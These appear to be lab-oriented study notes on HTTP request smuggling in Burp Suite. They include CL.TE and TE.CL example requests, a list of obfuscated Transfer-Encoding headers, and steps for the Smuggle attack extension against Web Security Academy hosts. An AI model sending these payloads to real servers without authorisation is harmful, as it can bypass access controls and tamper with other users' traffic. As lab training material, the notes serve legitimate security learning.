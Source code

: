 # Switch Burp Repeater to HTTP/1
Manually switch protocols in **Burp Repeater -> Inspector Panel -> Request attributes section**
# Performing the Attack
## Preparing Burp for Request Smuggling
1. Find request for root page and send to Repeater
2. Downgrade HTTP protocol to HTTP/1.1 (Inspector tab on right)
3. Change Request Method to POST by right-clicking
4. Disable automatic update of Content-Length (settings icon next to 'Send')
5. Show non-printable characters (option at top-right of Request section)
6. Send the request normally to ensure it is properly working

## Detecting the Vulnerability
![Pasted image 20250501090652.png](/Cybersecurity/Screenshots/Pasted%20image%2020250501090652.png)
## Confirming the Vulnerability
![Pasted image 20250501090918.png](/Cybersecurity/Screenshots/Pasted%20image%2020250501090918.png)
- Send the request twice, and the first should be status 200, and second status 403 forbidden
- Ensure there are two `\r\n` after the end of the second request
### CL.TE Example
```
POST / HTTP/1.1 
Host: host.website.here.com
Connection: keep-alive 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 6 
Transfer-Encoding: chunked 

0 

G
```
- Send it twice
- The second response should say: `Unrecognized method GPOST`.
### TE.CL Example
```
POST / HTTP/1.1

Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c

GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1

0


```
- Ensure `\r\n\` is showing twice after the final `0`
- Send it twice and the second response should say: `Unrecognized method GPOST`.
## TE.TE
There are potentially endless ways to obfuscate the `Transfer-Encoding` header. For example:
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space] Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

Transfer-Encoding: chunked
Transfer-Encoding: cow
```
- Necessary to find some variation of the `Transfer-Encoding` header such that only one of the front-end or back-end servers processes it, while the other server ignores it.
- Depending on whether it is the front-end or the back-end server that can be induced not to process the obfuscated `Transfer-Encoding` header, the remainder of the attack will take the same form as for the CL.TE or TE.CL
- Ensure there are two `\r\n` after the `0` of the second request

Example Request to send a `GPOST` request:
```
POST / HTTP/1.1
Host: 0a9900a6047482318574918700b40052.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
# Burp Smuggling Extension
For more advanced use watch the [video](https://portswigger.net/research/http-desync-attacks), and check out the [documentation](https://github.com/PortSwigger/http-request-smuggler).
1. Right click on a request and click 'Launch Smuggle probe'
2. Ensure 'permute: badsetupLF' is checked
3. Go to 'Target' tab of Burp (at the top)
4. Select the site you are querying
5. Go to the 'Contents' section of this site to see all requests
6. Go to the 'Issues' section to view any issues
7. Select 'Request 1' to see the issue with the first request
8. Right-click the request and select 'Smuggle attack'
9. A new window will pop up. If you scroll down, you'll see the `GET /hopefull404 HTTP/1.1` request
10. Select 'Attack' button at the bottom
11. Observe the 404 error, and a 200 status request previously with the payload in the data, click 'Halt' at the bottom to pause, then 'Configure' to exit
12. We can go back to the window where we saw the `GET` request section, and we can replace that with any other request we want
	- We can intercept other `GET` requests from other pages, go back to our smuggle request, and paste other `GET` requests into this section (only paste the `GET` and `HOST` section, and keep the `X-ignore` header when pasting)
13. We click 'Attack' again, and we can observe the request was successful